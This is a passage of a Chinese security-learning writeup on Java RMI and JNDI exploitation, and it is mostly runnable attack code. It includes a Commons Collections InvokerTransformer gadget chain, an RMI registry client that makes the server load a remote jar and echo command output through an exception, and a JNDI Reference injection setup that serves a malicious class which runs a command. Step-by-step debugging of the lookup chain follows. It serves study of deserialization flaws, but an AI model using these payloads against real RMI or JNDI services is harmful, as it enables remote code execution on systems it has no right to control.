                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
 
        Map map = new HashMap();
        map.put("value", "lala");
        Map transformedMap = TransformedMap.decorate(map, null, transformerChain);
 
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, transformedMap);
        return instance;
    }
 
}
```

这里客户端构造payload然后调用远程方法

```
r.evil(payload);
```

然后在RMI内部过程

在服务器端会进行反序列化从而触发链子

```
// 1. 客户端准备payload
Object payload = AnnotationInvocationHandler(TransformedMap(...));

// 2. 调用远程方法
r.evil(payload);

// RMI内部过程：
// 客户端：
ObjectOutputStream.writeObject(payload);  // 序列化

// 网络传输...

// 服务端：
ObjectInputStream.readObject();  // 反序列化！
    ↓
AnnotationInvocationHandler.readObject()
```

---

#### 远程加载对象

条件苛刻

参考：https://paper.seebug.org/1091/#serverrmi

---

# RMI 进阶攻击方式

## 1. 利用 URLClassLoader实现回显攻击

攻击注册中心时，注册中心遇到异常会直接把异常发回来，返回给客户端。这里我们利用URLClassLoader加载远程jar，传入服务端，反序列化后调用其方法，在方法内抛出错误，错误会传回客户端

远程demo：

```
import java.io.BufferedReader;
import java.io.InputStreamReader;
 
public class ErrorBaseExec {
 
    public static void do_exec(String args) throws Exception
    {
        Process proc = Runtime.getRuntime().exec(args);
        BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
        StringBuffer sb = new StringBuffer();
        String line;
        while ((line = br.readLine()) != null)
        {
            sb.append(line).append("\n");
        }
        String result = sb.toString();
        Exception e=new Exception(result);
        throw e;
    }
}
```

通过如下命令制作成jar包：

```
javac ErrorBaseExec.java
jar -cvf RMIexploit.jar ErrorBaseExec.class
```

注意这里打包的时候，java代码的第一行不能有package org.mixbp

远程 jar 里的类必须是真正的默认包类，所以去掉package再javac然后打包


客户端：

```
package org.mixbp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;

import java.net.URLClassLoader;

import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

import java.util.HashMap;
import java.util.Map;


public class ClassloaderClient {
    public static Constructor<?> getFirstCtor(final String name)
            throws Exception {
        final Constructor<?> ctor = Class.forName(name).getDeclaredConstructors()[0];
        ctor.setAccessible(true);

        return ctor;
    }

    public static void main(String[] args) throws Exception {
        String ip = "127.0.0.1"; //注册中心ip
        int port = 1099; //注册中心端口
        String remotejar = "http://127.0.0.1:8083/RMIexploit.jar";
        // 要执行的命令
        String command = "whoami";
        final String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";

        try {
            final Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(java.net.URLClassLoader.class),
                    new InvokerTransformer("getConstructor",
                            new Class[] { Class[].class },
                            new Object[] { new Class[] { java.net.URL[].class } }),
                    new InvokerTransformer("newInstance",
                            new Class[] { Object[].class },
                            new Object[] {
                                    new Object[] {
                                            new java.net.URL[] { new java.net.URL(remotejar) }
                                    }
                            }),
                    new InvokerTransformer("loadClass",
                            new Class[] { String.class },
                            new Object[] { "ErrorBaseExec" }),
                    new InvokerTransformer("getMethod",
                            new Class[] { String.class, Class[].class },
                            new Object[] { "do_exec", new Class[] { String.class } }),
                    new InvokerTransformer("invoke",
                            new Class[] { Object.class, Object[].class },
                            new Object[] { null, new String[] { command } })
            };
            Transformer transformedChain = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            innerMap.put("value", "value");

            Map outerMap = TransformedMap.decorate(innerMap, null,
                    transformedChain);
            Class cl = Class.forName(
                    "sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
            ctor.setAccessible(true);

            Object instance = ctor.newInstance(Target.class, outerMap);
            Registry registry = LocateRegistry.getRegistry(ip, port);
            InvocationHandler h = (InvocationHandler) getFirstCtor(ANN_INV_HANDLER_CLASS)
                    .newInstance(Target.class,
                            outerMap);
            Remote r = Remote.class.cast(Proxy.newProxyInstance(
                    Remote.class.getClassLoader(),
                    new Class[] { Remote.class }, h));
            registry.bind("liming", r);
        } catch (Exception e) {
            try {
                System.out.print(e.getCause().getCause().getCause().getMessage());
            } catch (Exception ee) {
                throw e;
            }
        }
    }
}

```

成功执行命令



---

# JNDI 学习

## 什么是 jndi

首先第一个问题，什么是 JNDI，它的作用是什么？

根据官方文档，JNDI 全称为 **Java Naming and Directory Interface**，即 Java 名称与目录接口。也就是一个名字对应一个 Java 对象。

也就是一个字符串对应一个对象。

jndi 在 jdk 里面支持以下四种服务

- LDAP：轻量级目录访问协议
- 通用对象请求代理架构(CORBA)；通用对象服务(COS)名称服务
- Java 远程方法调用(RMI) 注册表
- DNS 服务

前三种都是字符串对应对象，DNS 是 IP 对应域名。

---

## jndi 的代码以及包说明

JNDI 主要是上述四种服务，对应四个包加一个主包
JNDI 接口主要分为下述 5 个包:

- [javax.naming](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/naming.html)
- [javax.naming.directory](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/directory.html)
- [javax.naming.event](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/event.html)
- [javax.naming.ldap](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/ldap.html)
- [javax.naming.spi](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/provider.html)

其中最重要的是 `javax.naming` 包，包含了访问目录服务所需的类和接口，比如 Context、Bindings、References、lookup 等。 以上述打印机服务为例，通过 JNDI 接口，用户可以透明地调用远程打印服务，伪代码如下所示:

JAVA

```
Context ctx = new InitialContext(env);
Printer printer = (Printer)ctx.lookup("myprinter");
printer.print(report);
```

Jndi 在对不同服务进行调用的时候，会去调用 xxxContext 这个类，比如调用 RMI 服务的时候就是调的 RegistryContext

---

# JNDI的利用

## 1、JNDI结合RMI

这里新建项目，还是和RMI一样分为服务端、客户端

RemoteObj 的接口

```
package org.mixbp;

import java.rmi.Remote;
import java.rmi.RemoteException;

public interface RemoteObj extends Remote {
    public String sayHello(String keywords) throws RemoteException;
}

```

接口的实现类

```
package org.mixbp;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class RemoteObjImpl extends UnicastRemoteObject implements RemoteObj{
    public RemoteObjImpl() throws RemoteException{
        //    UnicastRemoteObject.exportObject(this, 0); // 如果不能继承 UnicastRemoteObject 就需要手工导出
    }

    @Override
    public String sayHello(String keywords) {
        String upKeywords = keywords.toUpperCase();
        return upKeywords;
    }

}
```

服务端

```
package org.mixbp;

import javax.naming.InitialContext;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JNDIRMIServer {
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        Registry registry = LocateRegistry.createRegistry(1099);
        initialContext.rebind("rmi://localhost:1099/remoteObj", new RemoteObjImpl());
    }
}
```

客户端

```
package org.mixbp;

import javax.naming.InitialContext;

public class JNDIRMIClient {
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        RemoteObj remoteObj = (RemoteObj) initialContext.lookup("rmi://localhost:1099/remoteObj");
        System.out.println(remoteObj.sayHello("hello"));
    }
}
```

可以看到这里成功远程调用



这里其实看起来和普通的RMI调用是一样的，同样都是先bind然后lookup调用

---

### JNDI结合RMI调试

其实这里的JNDI的漏洞代码层是通过RMI来实现的，我们可以调试看看

在客户端的`initialContext.lookup()`方法调用这里打断点



然后跟进发现这里会调用这个方法

```
getURLOrDefaultInitCtx(name).lookup(name);
```



跟进到lookup()方法里去

这里 `GenericURLContext` 类的 `lookup()` 方法里面又调用了一个lookup()方法



继续跟进

进去之后发现这个类是 `RegistryContext`，也就是 RMI 对应 `lookup()` 方法的类



并且这里会调用

```
registry.lookup(name.get(0))
```

而这里的registry就是RegistryImpl_Stub，和RMI中是一样的



**所以可以说JNDI 调用 RMI 服务的时候，虽然 API 是 JNDI 的，但是还是去调用了原生的 RMI 服务**

---

### JNDI注入（绑定引用对象）

- 这个漏洞被称作 Jndi 注入漏洞，它与所调用服务无关，不论你是 RMI，DNS，LDAP 或者是其他的，都会存在这个问题。

原理是在服务端调用了一个 `Reference` 对象，这个引用对象有点像代理，在引用中我们可以定义一个工厂，在调用时会调用到工厂

**服务端代码如下**

```
import javax.naming.InitialContext;  
import javax.naming.Reference;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
  
public class JNDIRMIServer {  
    public static void main(String[] args) throws Exception{  
        InitialContext initialContext = new InitialContext();  
 Registry registry = LocateRegistry.createRegistry(1099);  
 // RMI  
 // initialContext.rebind("rmi://localhost:1099/remoteObj", new RemoteObjImpl()); // JNDI 注入漏洞  
 Reference reference = new Reference("Calc","Calc","http://localhost:7777/");  
 initialContext.rebind("rmi://localhost:1099/remoteObj", reference);  
 }  
}
```

可以看到和上面不一样，这里我们换成了

```
 Reference reference = new Reference("Calc","Calc","http://localhost:7777/");  
 initialContext.rebind("rmi://localhost:1099/remoteObj", reference);  
```

绑定了一个引用对象，而不是之前接口实现对象。

这里关键就在第三个参数

```
 Reference reference = new Reference("Calc","Calc","http://localhost:7777/");  
```

这里可以自定义工厂的地址，也就是恶意地址。

现在我们测试一下

写一个恶意的类，这里把命令执行写在这个类的构造函数里，后面会说明原因

**jndiCalc.java**

```
public class JndiCalc {  
    public JndiCalc() throws Exception {  
        Runtime.getRuntime().exec("calc");  
 }  
}
```

用python起一个临时web服务

```
python -m http.server 7777
```

然后把编译好的**jndiCalc.class**放到web目录下

然后启动服务端，再启动客户端，客户端还是之前那个

```
package org.mixbp;

import javax.naming.InitialContext;

public class JNDIRMIClient {
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        RemoteObj remoteObj = (RemoteObj) initialContext.lookup("rmi://localhost:1099/remoteObj");
//        System.out.println(remoteObj.sayHello("hello"));
    }
}
```

成功弹出计算器



这里报错是报的是**类型转换报错**，**但是恶意类的加载过程已经完成了**

---

### JNDI注入调试

在客户端的lookup()方法调用处下断点

因为漏洞点在 `lookup()` 方法这里

```
RemoteObj remoteObj = (RemoteObj) initialContext.lookup("rmi://localhost:1099/remoteObj");
```



跟进几个 `lookup()` 方法，直到 RMI 的原生的 `lookup()`，对应的类是`RegistryContext`



继续往下走，这里 把 Ref 的值赋给了var2。var2 是 `ReferenceWrapper_Stub` 这个类的对象

我们当时绑定的是一个Reference对象，但是这里拿到的是ReferenceWrapper对象。

其实是因为服务端rebind绑定时，调用了

```
registry.rebind(name.get(0),encodeObject(obj,name.getPrefix(1)));
```

可以看到这里的对obj也就是Reference对象调用了encodeObject()方法

这个方法就会把Reference对象变成ReferenceWrapper



---

然后我们继续追链子。之前追到了decodeObject()方法这里



然后继续往下走，从 `decodeObject()` 方法进去。

先做了一个简单的判断，判断是否为 `ReferenceWrapper`。往下是一个比较重要的方法 `getOBjectInstance()`，从名字上推测这应该是一个初始化的方法。跟进



然后下面调用了`getOBjectInstance()`这个方法，很明显这个方法和类初始化应该有关。

然后我们先去看一下`Reference` 这个类的构造函数



第一个参数是类名，第二个参数是 factory，，我们可以通过这一个 factory 来代表一个类；第三个参数为地址

这里到了 `getObjectInstance()` 这个方法，首先是 `builder` 的判断，直接跳过

往下走，是关于 reference 的，这里肯定是用了 reference，强转换，将 `refInfo` 转换为 `Reference`。



继续往下走，是关于 ref 的，意思是如果 reference 当中定义了 factory，就通过 `getObjectFactoryFromReference()` 方法来调用 reference 当中的 factory。



`getObjectFactoryFromReference()` 这个方法中，我们已经获取到了这个恶意类，接着执行加载类的 `loadClass()` 方法。

